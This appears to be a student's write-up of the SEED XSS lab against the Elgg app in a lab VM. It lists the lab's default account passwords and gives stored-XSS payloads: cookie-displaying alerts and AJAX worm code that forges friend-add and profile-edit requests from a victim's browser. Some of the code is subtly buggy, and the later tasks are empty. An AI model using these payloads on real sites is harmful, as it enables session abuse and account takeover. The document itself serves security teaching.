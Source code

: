 # CSUS CSC154: XSS Lab  

## Goal  
To fully demonstrate what attackers can do by exploiting XSS vulnerabilities.


## Lab Environment  
In this lab, we need three things, which are already installed in the provided `SEEDUbuntu12.04` VM image: (1) the Firefox web browser, (2) the Apache web server, and (3) the Elgg web application. For the browser, we need to use the LiveHTTPHeaders extension for Firefox to inspect the HTTP requests and responses. The pre-built Ubuntu VM image provided to you has already installed the Firefox web browser with the required extensions.  

The user accounts for Elgg are found below.  

| User          | UserName      | Password     |
| ------------- |:-------------:| ------------:|
| Admin         | admin         | seedelgg     |
| Alice         | alice         | seedalice    |
| Boby          | boby          | seedboby     |
| Charlie       | charlie       | seedcharlie  |
| Samy          | samy          | seedsamy     |



## Lab Tasks  

### Posting a Malicious Message to Display an Alert Window  
The objective of this task is to embed a JavaScript program in our Elgg profile, such that when another
user views our profile, the JavaScript program will be executed and an alert window will be displayed. The
following JavaScript program will display an alert window:  

```javascript
<script>alert('xss');</script>
```

To accomplish this, we simply login as Samy, and navigate to edit our profile. As can be seen in Figure 1 below, we've placed our JavaScript payload in the "Brief Descriptoin" portion of Samy's profile.  
![1_1_samy](./writeup/images/1_1_samy.png)  
**Figure 1:** JavaScript alert window payload to demonstrate XSS.  

![1_2_samy](./writeup/images/1_2_samy.png)  
**Figure 2:** JavaScript alert window fires when Samy's profile is visited.  


### Posting a Malicious Message to Display Cookies
The objective of this task is to embed a JavaScript program in our Elgg profile, such that when another user views our profile, the user's cookies will be displayed in the alert window. This can be done by adding some additional code to the JavaScript program in the previous task, more specifically `document.cookie` as such: 
```javascript
<script>alert(document.cookie);</script>
```

To accomplish this, we repeat the previous task, but replace the `'xss'` string, with `document.cookie`.  
![2_1_samy](./writeup/images/2_1_samy.png)  
**Figure 3:** JavaScript alert window payload to display user's cookie for the site.  

![2_2_samy](./writeup/images/2_2_samy.png)  
**Figure 4:** JavaScript alert window displays our Elgg cookie when visiting Samy's profile.




### Writing an XSS Worm  
In this and next task, we will perform an attack similar to what Samy did to MySpace in 2005 (i.e. the Samy Worm). First, we will write an XSS worm that does not self-propagate; in the next task, we will make it self-propagating. In this task, we need to write a malicious JavaScript program that forges HTTP requests directly from the victim's browser, without the intervention of the attacker. The objective of the attack is to modify the victim's profile and add Samy as a friend to the victim. 

We can view the requests made to the server when adding a friend, by using the Live HTTP Headers plugin. In Figure 5 below, we're viewing the request made when Boby adds Alice as a friend.  
![boby_added_alice](./writeup/images/boby_added_alice.png)  
**Figure 5:** HTTP Headers for friend request, Boby to Alice.  


We can also see by hovering over the link to to add Samy as a friend, the url is `http://www.xsslabelgg.com/action/friends/add?friend=42&__elgg_ts=1575329197&__elgg_token=ac28852afbfcd82a9fd72aa9923110f3`.

Using this information we can construct an AJAX request to add Samy as a friend as soon as you visit his profile. To create our worm this we've developed the following JavaScript code, which we embed in the About Me section of Samy's profile.

```javascript
<script>
var Ajax=null;
var guid = elgg.session.user['guid'];
var ts = elgg.security.token__elgg_ts;
var token = elgg.security.token.__elgg_token;
// Construct the header information for the HTTP request
Ajax=new XMLHttpRequest();
Ajax.open("GET","http://www.xsslabelgg.com/action/friends/add",true);
Ajax.setRequestHeader("Host","www.xsslabelgg.com");
Ajax.setRequestHeader("Keep-Alive","300");
Ajax.setRequestHeader("Connection","keep-alive");
Ajax.setRequestHeader("Cookie",document.cookie);
Ajax.setRequestHeader("Content-Type","application/x-www-form-urlencoded");
// Construct the content. The format of the content can be learned
// from LiveHTTPHeaders.
var content ="friend=42&__elgg_ts="+ts+"&__elgg_token="+token;
// Send the HTTP POST request.
Ajax.send(content);
</script>
```


OLD SKELETON DOES NOT WORK....
```javascript
<script>
var Ajax=null;
// Construct the header information for the HTTP request
Ajax=new XMLHttpRequest();
Ajax.open("POST","http://www.xsslabelgg.com/action/profile/edit",true);
Ajax.setRequestHeader("Host","www.xsslabelgg.com");
Ajax.setRequestHeader("Keep-Alive","300");
Ajax.setRequestHeader("Connection","keep-alive");
Ajax.setRequestHeader("Cookie",document.cookie);
Ajax.setRequestHeader("Content-Type","application/x-www-form-urlencoded");
// Construct the content. The format of the content can be learned
// from LiveHTTPHeaders.
var content="name="+elgg.session.user["username"]+"&description=SamyWorm&guid="+elgg.session.user['guid']; // You need to fill in the details.
// Send the HTTP POST request.
Ajax.send(content);
</script>
```



### Task 6: Writing a Self-Propagating XSS Worm  

### Task 7: Countermeasures  
